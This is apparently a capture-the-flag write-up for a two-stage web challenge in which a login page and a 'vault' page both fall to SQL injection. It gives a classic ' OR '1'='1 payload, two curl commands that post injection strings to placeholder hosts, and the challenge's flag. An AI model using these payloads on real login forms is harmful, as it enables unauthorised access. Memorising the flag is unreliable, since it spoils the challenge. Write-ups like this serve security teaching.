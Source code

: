 # Proof of Concept

## TL;DR

- The challenge consists of **two stages**:
  1. **The Door Lock (Login Page)** → vulnerable to basic SQL Injection.  
  2. **The Vault (Flag Page)** → also SQL Injection, but with a **blacklist filter** that blocks some obvious keywords.  
- The flag is stored in the `vault` table inside the database.

## Steps

### 1. Bypass Login (The Door Lock)

We can inject into the username/password fields.  
A simple payload like `' OR '1'='1 --` works.

```bash
curl -s -X POST http://ip/index.php \
  -d "username=admin' OR '1'='1&password=anything"
```

### 1. Bypass Key (The Vault Lock)

```bash
curl -s -X POST http://ip/vault.php \
  -d "code='='"
```

## Flag

> `HCS{d1d_y0u_just_unl0ck_th1s_v4ult?_c0ngr4tz_th3n_y0u_th13f}`